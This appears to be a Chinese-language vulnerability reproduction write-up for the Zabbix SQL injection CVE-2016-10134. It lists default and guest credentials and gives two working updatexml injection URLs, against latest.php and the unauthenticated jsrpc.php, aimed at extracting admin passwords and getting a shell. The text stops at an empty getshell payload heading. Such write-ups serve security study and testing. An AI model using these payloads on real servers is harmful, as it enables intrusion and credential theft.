### zabbix latest.php SQL注入漏洞（CVE-2016-10134）

#### 概述

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

zabbix 2.2.x, 3.0.0-3.0.3版本存在SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统

Zabbix 的`latest.php中的toggle_ids[]`或`jsrpc.php中的profieldx2参数`存在sql注入，通过sql注入获取管理员账户密码，进入后台，进行getshell操作。



#### 复现

#### latest.php中的toggle_ids[]

需要靶机系统未关闭默认开启guest账户登陆，zabbix 默认账户Admin密码zabbix（弱口令尝试一波~）

使用username：guest，password为空的游客账户登陆

![](https://i.loli.net/2021/02/13/f325W7Ja8FOEejr.png)

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](https://i.loli.net/2021/02/13/xBVOFagXmtnzeru.png)

将这16个字符作为sid的，构造payload：

```
http://your-ip:8080/latest.php?output=ajax&sid=******************&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,database(),0xa,user()),0)
```

如下：

![](https://i.loli.net/2021/02/13/8uvI9oCdWnzlmYO.png)

#### jsrpc.php的profieldx2参数

也可以通过jsrpc.php触发，且无需登陆

```
http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,database(),0xa,user()),0)
```

如下：

![](https://i.loli.net/2021/02/13/HaBdrgTc81yhO5S.png)



#### getshell

然后就是常规的注入流程啦。拿到管理员账户密码~

payload:
